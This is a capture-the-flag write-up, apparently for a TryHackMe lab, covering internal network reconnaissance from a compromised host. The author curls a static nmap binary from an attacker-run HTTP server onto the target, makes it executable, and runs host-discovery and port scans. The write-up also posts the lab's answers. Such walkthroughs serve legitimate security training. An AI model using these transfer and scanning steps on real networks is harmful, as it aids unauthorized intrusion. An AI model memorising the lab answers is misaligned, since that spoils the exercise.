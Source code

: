 We know that this is 2 previously, but install nmap to check if it finds any new hosts.

I used a python3 httpserver on port 80 and then curled the static nmap from the target.

Attack Source:

```
sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.200.72.200 - - [23/Mar/2021 18:11:36] "GET /nmap HTTP/1.1" 200 -
```

Target:

```
curl Tun0-IP/nmap-USERNAME -o /tmp/nmap-USERNAME && chmod +x /tmp/nmap-USERNAME
```

Let's go ahead and navigate to /tmp/ then run the binary to scan the network only for online hosts and not ports.

```
./nmap-USERNAME -sn 10.200.72.1-255 -vv
```

We confirm, there are 2 other hosts we can spread to.

**2) In ascending order, what are the last octets of these host IPv4 addresses? (e.g. if the address was 172.16.0.80, submit the 80)**

150,100

**3) Scan the hosts -- which one does not return a status of "filtered" for every port (submit the last octet only)?**

Using our static nmap binary, we can scan the hosts

```
./nmap-USERNAME -p- -vv 10.200.72.150
```

**4) Which TCP ports (in ascending order, comma separated) below port 15000, are open on the remaining target?**

150 returns the following ports, and tryhackme says to assume the other is inaccessible from current position, so we do not have to scan .100.

```
PORT      STATE SERVICE       REASON
80/tcp    open  http          syn-ack ttl 128
3389/tcp  open  ms-wbt-server syn-ack ttl 128
5357/tcp  open  wsdapi        syn-ack ttl 128
5985/tcp  open  wsman         syn-ack ttl 128
15555/tcp open  cisco-snat    syn-ack ttl 128
47000/tcp open  mbus          syn-ack ttl 128
50001/tcp open  unknown       syn-ack ttl 128
```

I'm going to guess that 50001 port is someone elses' shell in the network.

Since tryhackme notes to ignore 5356, we will exclude that from our answer.
